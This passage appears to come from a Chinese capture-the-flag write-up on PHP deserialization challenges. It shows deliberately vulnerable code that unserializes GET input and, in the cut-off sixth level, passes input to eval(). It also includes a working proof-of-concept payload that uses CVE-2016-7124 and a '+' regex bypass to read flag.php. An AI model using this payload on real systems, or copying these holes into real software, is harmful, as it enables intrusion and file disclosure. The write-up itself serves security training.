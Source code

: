 ```php
            $this->file='index.php';
        }
    }
    $cmd=$_GET['cmd'];
    if (!isset($cmd)){
        echo show_source('index.php',true);
    }
    else{
        if (preg_match('/[oc]:\d+:/i',$cmd)){
            echo "Are you daydreaming?";
        }
        else{
            unserialize($cmd);
        }
    }
    //sercet in flag.php
?>
```

本关涉及一个漏洞，CVE-2016-7124，当反序列化字符串中，表示属性个数的值大于真实属性个数时，会绕过 __wakeup 函数的执行。而对于正则匹配，可以利用+绕过，因为+6和6实际上是一样的，下面是poc：

```php
<?php
class secret{
    var $file='index.php';

    public function __construct($file){
        $this->file=$file;
        echo $flag;
    }

    function __destruct(){
        include_once($this->file);
    }

    function __wakeup(){
        $this->file='index.php';
    }
}
$pa=new secret('flag.php');
echo serialize($pa),"\n";//O:6:"secret":1:{s:4:"file";s:8:"flag.php";}
$cmd=urlencode('O:+6:"secret":2:{s:4:"file";s:8:"flag.php";}');
echo $cmd;
?>
```

#### 6.第六关

第六关代码如下：

```php
<?php
highlight_file(__FILE__);
class secret{
    private $comm;
    public function __construct($com){
        $this->comm = $com;
    }
    function __destruct(){
        echo eval($this->comm);
    }
}
$param=$_GET['param'];
$param=str_replace("%","daydream",$param);
```